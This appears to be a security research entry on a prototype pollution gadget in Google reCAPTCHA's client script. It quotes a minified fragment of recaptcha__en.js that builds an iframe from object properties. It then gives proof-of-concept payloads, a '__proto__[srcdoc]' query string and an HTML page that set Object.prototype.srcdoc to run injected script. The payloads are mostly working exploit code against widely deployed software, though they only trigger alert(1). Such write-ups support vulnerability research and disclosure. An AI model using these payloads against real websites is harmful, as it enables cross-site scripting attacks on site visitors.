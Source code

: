## Google reCAPTCHA

URL: https://www.google.com/recaptcha/about/

### Vulnerable code fragment
https://www.gstatic.com/recaptcha/releases/Y5tQ3lKwn1XL5hGgLz1kR4-1/recaptcha__en.js
```js
return m - 7 & 6 || (d.F = l[25](5, Z, 0, {
    src: I,
    tabindex: K,
    width: String(U.width),
    height: String(U.height),
    role: "presentation",
    name: E + d.Y
  }),
  x.appendChild(d.F))
```

### PoC

```
?__proto__[srcdoc][]=<script>alert(1)</script>
```

```html
<script src="https://www.google.com/recaptcha/api.js" async defer></script>
<script>
  Object.prototype.srcdoc=['<script>alert(1)<\/script>']
</script>
<div class="g-recaptcha" data-sitekey="your-site-key"/>
```
